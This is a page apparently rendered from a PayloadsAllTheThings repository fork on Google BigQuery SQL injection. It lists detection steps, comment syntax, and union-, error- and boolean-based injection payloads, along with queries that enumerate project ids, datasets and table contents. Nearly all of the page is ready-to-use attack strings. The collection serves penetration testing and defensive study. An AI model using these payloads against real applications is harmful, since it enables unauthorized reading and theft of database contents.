

repository: MnifR/PayloadsAllTheThings · page: SQL Injection/BigQuery Injection/index.html · generator: mkdocs

# Google BigQuery SQL Injection

> Google BigQuery SQL Injection  is a type of security vulnerability where an attacker can execute arbitrary SQL queries on a Google BigQuery database by manipulating user inputs that are incorporated into SQL queries without proper sanitization. This can lead to unauthorized data access, data manipulation, or other malicious activities.

## Summary

* [Detection](#detection)
* [BigQuery Comment](#bigquery-comment)
* [BigQuery Union Based](#bigquery-union-based)
* [BigQuery Error Based](#bigquery-error-based)
* [BigQuery Boolean Based](#bigquery-boolean-based)
* [BigQuery Time Based](#bigquery-time-based)
* [References](#references)

## Detection

* Use a classic single quote to trigger an error: `'`
* Identify BigQuery using backtick notation: ```SELECT .... FROM `` AS ...```

| SQL Query                                             | Description                                       |
| ----------------------------------------------------- | ------------------------------------------------- |
| `SELECT @@project_id`                                 | Gathering project id                              |
| `SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA` | Gathering all dataset names                       |
| `select * from project_id.dataset_name.table_name`    | Gathering data from specific project id & dataset |

## BigQuery Comment

| Type                       | Description     |
| -------------------------- | --------------- |
| `#`                        | Hash comment    |
| `/* PostgreSQL Comment */` | C-style comment |

## BigQuery Union Based

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## BigQuery Error Based

| SQL Query                                                | Description      |
| -------------------------------------------------------- | ---------------- |
| `' OR if(1/(length((select('a')))-1)=1,true,false) OR '` | Division by zero |
| `select CAST(@@project_id AS INT64)`                     | Casting          |

## BigQuery Boolean Based

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## BigQuery Time Based

* Time based functions does not exist in the BigQuery syntax.
